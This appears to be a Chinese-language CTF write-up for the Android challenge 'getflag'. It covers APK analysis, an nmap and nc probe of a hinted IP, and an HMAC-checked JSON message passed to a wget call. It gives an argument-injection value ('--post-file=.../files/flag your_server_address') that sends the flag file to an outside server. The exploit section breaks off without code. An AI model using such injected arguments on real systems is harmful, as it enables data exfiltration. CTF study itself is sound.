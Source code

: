 ## getflag
**mobile**

扔到`JEB`里分析，发现提示存在远程的`APK`

![image_1e3n3ma421g1q1ojd1516ikv1cok9.png-35.8kB][15]

那么这APK应该是会有一个监听端口的功能，远程IP在哪呢？
翻到`assert`文件夹下可以看到`secret.txt`，内容是一段`base64`。
解码后：

    The IP of the remote phone is 212.64.66.177

nmap扫一下这个IP的端口：`nmap 212.64.66.177` ，发现`8080`这个端口是开着的

连上：`nc 212.64.66.177 8080` ，返回一个数，每次都变，不知道干什么的。

----------

继续分析代码，在`onCreate()`函数中可以看到利用了`openFileOutput()`这个`API`新建了一个文件，这个文件会保存在应用的私有目录：`/data/data/com.xuanxuan.getflag/files/flag`

![image_1e3n5fcbj1o5c1omaco918i266km.png-75.9kB][16]

![image_1e3n5kj5k4391ulu1v4k12o1hfb13.png-8kB][17]

----------

然后分析点击事件，进而分析`ServerSocket_thread`线程，发现是监听的本地的`8080`端口

![image_1e3n6oo8v1us91vcd31n13r31u2j1g.png-41.5kB][18]

继续分析`Receive_Thread`线程，知道连接到这个端口发送的是一个随机数

![image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png-69.9kB][19]

继续分析，发现最多能读取接收的500个字节，然后收到数据和刚才生成的随机数会被送到`Checkpayload()`函数里

![image_1e3n9dk8m1e5h9fp16edt7l1c042a.png-77.6kB][20]

跟进，数据转成`JSON`对象，对象里有两个字段，分别为`message`和`check`，然后会用传进来的随机数作为`HMAC`的`key`，算出`message`的校验码和`check`进行比较，如果通过，则过滤一些`message`的参数，利用`JAVA`的`Runtime`类执行`wget`拼接后面提交`message`。

目的是为了得到远程的`flag`。类似命令行参数`--post-file=/data/data/com.xuanxuan.getflag/files/flag your_server_address`。

然后根据开始的随机数计算校验码

### exp
一开始无法使用`hashlib`库

> "The quick and dirty fix is to remove the
> /usr/lib/python2.7/lib-dynload/_hashlib.x86_64-linux-gnu.so file"
> 
> After this it is possible to install hashlib with pip!


  [1]: https://xz.aliyun.com/t/6067
  [2]: http://static.zybuluo.com/leafish/jpp8avpsr27dzae7r1d9x6gz/image_1e693d72u1enl1cneadj3h41tng9.png
  [3]: https://kirin-say.top/2020/03/10/Kernoob-kmalloc-without-SMAP/
  [4]: http://static.zybuluo.com/leafish/evsddfq2iq6gwhck86bsdr0w/image_1e6bda8am1d31h36ubj1ul83079.png
  [5]: http://static.zybuluo.com/leafish/55my5icnzf3lnwnm1bu6zlyb/image_1e6becjm0hvr1bct1odg13ugbv4m.png
  [6]: http://static.zybuluo.com/leafish/413oe16gqt1ggrad5ho0hufa/image_1e6bh0sc91jdg1vir1b0urmt11lu13.png
  [7]: http://static.zybuluo.com/leafish/vyz71tvzk27vi1xlkuhub29q/image_1e6arvrf11sodt53eamhob163vm.png
  [8]: http://static.zybuluo.com/leafish/ull0t1d5zkiolnqkyd6jvrkm/image_1e3cegctudb774e9tl15d1n0q9.png
  [9]: http://static.zybuluo.com/leafish/fiw8hzlguct6w4mk2xzb4jsj/image_1e3ef7h6d10v61al4159f8p46k3m.png
  [10]: http://static.zybuluo.com/leafish/dm87f6we8lbvz08xgsksoubf/image_1e3efov151ckqmngalh1loi19v713.png
  [11]: http://static.zybuluo.com/leafish/a6m91ioa9l9xd0jcuct6cu5h/image_1e3eeat3mq56rv9bqm1udtk599.png
  [12]: http://static.zybuluo.com/leafish/0d4ntjurjrxcbf5mi1okz5te/image_1e3mch0hn1e5o1fqo1g8egom34h9.png
  [13]: http://static.zybuluo.com/leafish/noeaxbpb7ladjp6end8c8d6n/image_1e3p36h6gntr11qi1sfv89qpc09.png
  [14]: http://static.zybuluo.com/leafish/0wh1s7ttqasjk60vvbvdh5ar/image_1e3p39t88h7a1gno1rvi1ggcccpm.png
  [15]: http://static.zybuluo.com/leafish/5u93lj5peuib5v66grw07awr/image_1e3n3ma421g1q1ojd1516ikv1cok9.png
  [16]: http://static.zybuluo.com/leafish/jg93j2ppjpkfqnyutnf5b9to/image_1e3n5fcbj1o5c1omaco918i266km.png
  [17]: http://static.zybuluo.com/leafish/ej95qlwlrxb0h06h8rkycavy/image_1e3n5kj5k4391ulu1v4k12o1hfb13.png
  [18]: http://static.zybuluo.com/leafish/sp7r36az52z5p9andxjf3v5l/image_1e3n6oo8v1us91vcd31n13r31u2j1g.png
  [19]: http://static.zybuluo.com/leafish/vn0zh475yn0thyihbub3v4cm/image_1e3n7co4su6t1j3sb7m1jfl1k0h1t.png
  [20]: http://static.zybuluo.com/leafish/x7jpyo5qpj84b13dbcem1dtd/image_1e3n9dk8m1e5h9fp16edt7l1c042a.png